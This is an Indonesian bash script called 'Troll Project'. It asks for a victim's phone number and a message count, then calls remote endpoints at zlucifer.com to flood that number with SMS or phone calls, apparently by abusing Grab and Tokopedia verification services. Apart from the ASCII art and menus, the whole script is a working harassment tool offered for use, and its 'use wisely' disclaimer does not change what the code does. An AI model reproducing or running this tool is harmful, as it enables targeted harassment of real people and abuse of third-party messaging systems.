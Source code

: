 # troll.sh
#!/bin/bash #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #////                       _            _  __                              //// #////                      | |          (_)/ _|                             //// #////                   ___| |_   _  ___ _| |_ ___ _ __                     //// #////                  |_  / | | | |/ __| |  _/ _ \ '__|                    //// #////                   / /| | |_| | (__| | ||  __/ |                       //// #////                  /___|_|\__,_|\___|_|_| \___|_|                       //// #////                                                                       //// #/////////////////////////////////////////////////////////////////////////////// #/////////////////////////////////////////////////////////////////////////////// #PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI #GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :) troll(){     clear     sleep 0.03     echo "         _ "     sleep 0.03     echo "        /_)  _.-===-._ "     sleep 0.03     echo "       /  .; '_-.'- .'.     _ "     sleep 0.03     echo "  __ _/  /.'\ ._  '. , \   (_\ "     sleep 0.03     echo " /\_( \  |.'.-._'- .  '|     \ "     sleep 0.03     echo " |_)  /  |/'    ''--''\|     _\__ "     sleep 0.03     echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "     sleep 0.03     echo " )/  (  \_      _      _/   \' (_| "     sleep 0.03     echo " /   /    \           /     _) (_/ "     sleep 0.03     echo " |   '',_ _'._'---'_.'_ _,.'    | \ "     sleep 0.03     echo " \    /  \ \  '''''  / / /     /   \ "     sleep 0.03     echo "  \_.'    \ \       / /  |   .' "     sleep 0.03     echo "   '--.,   \ \     / /  _;-'' "     sleep 0.03     echo "       '|   \ \   / /   | "     sleep 0.03     echo "       .;----'''''''----;. "     sleep 0.03     echo "      /(                 )\ "     sleep 0.03     echo "      \_''-------------''_/ "     sleep 0.03     echo "      | '';-----;-----;'' | "     sleep 0.03     echo "      | / : \ / : \ / : \ | "     sleep 0.03     echo "      |V.','.V.','.V.','.V| "     sleep 0.03     echo "      \'./_\.;./_\.;./_\.'/ "     sleep 0.03     echo "       ';..___________..;' "     sleep 0.03     echo " ============================="     sleep 2     echo " ==      Troll Project      =="     sleep 0.7     echo " =============================" } load(){     echo -e "\n"     bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "     barlength=${#bar}     i=0     while((i&lt;100)); do         n=$((i*barlength / 100))         printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"         ((i += RANDOM%5+2))         sleep 0.2     done } get_sms=$(curl -s http://zlucifer.com/api/sms.php) get_call=$(curl -s http://zlucifer.com/api/call.php) mulai (){     echo "Gunakan Troll Project Lagi?"     echo "y/n?"     echo     read lagi     if [ $lagi = "y" ]; then             spam     else             echo "Terimakasih sudah menggunakan Troll project"     fi } #spam spam(){     clear     troll     echo     echo "[1] Spam SMS"     echo "[2] Spam Telp"     echo "[3] Close Troll Project"     echo     echo "1/2/3?"     read pilih     if [ $pilih = "1" ]; then             echo "Troll Spam SMS"             #function spam             echo             echo "Silahkan masukan nomor telp target"             echo contoh 0812345678             read target # masukin no telp             echo             echo "Berapa sms yang mau dikirim?"             read paket             echo             echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"             echo y/n?             read confirm             echo             if [ $confirm = "y" ]; then                     load                     clear                     echo Melakukan spam SMS ke nomor $target                     echo                     echo "Jangan close aplikasi sebelum spam selesai"                     echo "========================================"                     target_do=$get_sms'/sms.php?nomor='$target'&amp;paket='$paket                     CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`                     echo " Gunakan tools dengan bijak"                     echo                     echo " Love u always "                     echo " -zLucifer"                     echo "======================================="             else                     echo "Kesalahan"             fi         mulai     elif [ $pilih = "2" ]; then             echo "Troll Spam Call"             #function spam             echo             echo "Silahkan masukan nomor telp target"             echo contoh 0812345678             read target # masukin no telp             echo             echo "Gunakan API Grab/Toped?"             echo "[1] GRAB"             echo "[2] TOPED"             echo "1/2?"             read api             if [ $api = "1" ]; then                   api_spam="grab"             else                   api_spam="toped"             fi             echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"             echo y/n?             read confirm             echo             if [ $confirm = "y" ]; then                   load                   clear                   echo Melakukan spam call ke nomor $target                   echo                   echo "Jangan close aplikasi sebelum spam selesai"                   echo "========================================"                   cek_target=`curl -s $get_call/call.php?nomor=$target"&amp;method="$api_spam`                   echo -e $cek_target                   echo " Gunakan tools dengan bijak"                   echo                   echo " Love u always "                   echo " -zLucifer"                   echo "========================================"             else                   echo Kesalahan, silahkan coba lagi             fi         mulai     elif [ $pilih = "3" ]; then         echo "Terimakasih sudah menggunakan Troll project"         close     else         clear         echo "Kesalahan"         mulai     fi } close(){     exit } clear echo "Loading.." load clear troll echo Selamat datang kak, Siapa nick kaka? #tulisan keluar read nick #membaca yang ditulis clear troll echo Selamat datang $nick ":)" echo echo "Mulai troll project?" echo "y/n?" read mulai if [ $mulai = "y" ]; then       spam else       close fi
